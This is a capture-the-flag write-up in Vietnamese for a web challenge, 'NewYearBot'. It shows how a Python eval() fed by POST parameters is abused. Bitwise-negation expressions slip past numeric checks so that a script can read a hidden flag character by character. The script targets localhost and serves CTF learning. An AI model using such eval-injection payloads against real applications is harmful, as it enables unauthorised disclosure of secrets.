

# Write-up NewYearBot

### Tổng quan

- Tổng quan trang web có 1 giao diện để yêu cầu các lời chúc mừng năm mới, mỗi lần yêu cầu thì các lời chúc sẽ được render ra ngẫu nhiên theo 1 mảng có sẵn các lời chúc trong mã nguồn.




- Ngoài các mảng gồm các lời chúc được render ở trang web thì ta thấy có 1 biến là `FL4G` được gán giá trị từ 1 biến môi trường trên server (để thuận tiện khai thác nên mình đã gán trực tiếp giá trị flag thật). Từ đây nhiệm vụ của challenge này sẽ là làm như thế nào đó để đọc được giá trị của biến `FL4G`.
- Nhìn vào src code thì mình thấy có 3 untrusted data là 1 param get `debug`, 2 param post `type` và `number`. Ngoài ra thì trong chương trình còn sử dụng hàm `eval()` ở nhiều chỗ (hàm này là 1 trong những hàm nguy hiểm của Python).


- Sau khi xem sơ thì mình thấy có 4 chỗ dùng hàm `eval()`, tuy nhiên thì ở dòng 15, 28 thì sẽ không khai thác được vì các giá trị sẽ random untrusted data không tác động vào được. Còn ở dòng 82 thì untrusted data tác động vào được nhưng sẽ trả về độ dài của chuỗi (phục vụ cho việc brute force). Vậy thì hàm `eval()` ở dòng 79 sẽ là nơi chúng ta khai thác.

```python
greeting = eval("%s[%s]" % (greetType, greetNumber)) //greetType = type, greetNumber = number
```

- Ở dòng 79 thì nếu chúng ta truyền giá trị `type = FL4G`, `number = 0` thì chương trình sẽ chạy hàm như sau: `eval(”FL4G[0]”)` , sau khi chạy xong thì chương trình sẽ in ra ký tự đầu tiên của chuỗi FL4G.


⇒ Vậy thì với untrusted data `number` ta sẽ brute force ra tất cả ký tự của chuỗi `FL4G` này. Nhưng để xem được độ dài của chuỗi thì ta có thể thêm param get `debug`.


- Tới đây thì bình thường thì mình sẽ sử dụng intruder để brute force ra hết những ký tự vì mình đã biết được độ dài. Tuy nhiên thì trong chương trình có 2 lớp phòng thủ như sau.


- Dòng 75 chương trình sẽ kiểm tra `number` có phải là số hay không (sử dụng regex để lấy ra các chữ số rồi kiểm tra) đồng thời bắt buộc `number` phải bé hơn độ dài của các mảng lời chúc, dòng 76 thì độ dài của `greetType[greetNumber]` phải bé hơn 20.

⇒ `number` nhập vào thì sẽ phải bé hơn 6. Mình nhập vào 6 là trang web đã báo lỗi.


### Khai thác 1

- Để khai thác thì mình sẽ sử dụng toán tử bitwise đảo ~, công thức như sau `~a = -a - 1`. VD: ~0 = -1, ~5 = -6. Lợi dụng toán tử bitwise này và kết hợp thêm việc có thể truyền số âm thì mình có thể làm ra 1 list các giá trị tương ứng để lấy ra tất cả ký tự của chuỗi `FL4G`. Đoạn code exploit sẽ như sau:

```python
import requests

url = "http://localhost:5000/"
chars = ""
index = [
    '0', 
    '1', 
    '2', 
    '3', 
    '4', 
    '5', 
    '-~5', 
    '-(~0+~5)', 
    '-(~0+~0+~5)', 
    '-(~0+~0+~0+~5)', 
    '(~0+~0)*~4', 
    '-~0+(~0+~0)*~4',
    '(~0+~0)*~5',
    '-~0+(~0+~0)*~5',
    '~0+~0+~0+~0+~4',
    '~0+~0+~0+~4',
    '~0+~0+~4',
    '~0+~4',
    '~4',
    '-4',
    '-3',
    '-2',
    '-1'
]
for i in index:
    data = {"type": "FL4G", "number": "{}".format(i)}
    r = requests.post(url, data=data)
    chars += r.text.split("</strong>")[2].split("</div>")[0]
    
print(chars)
```

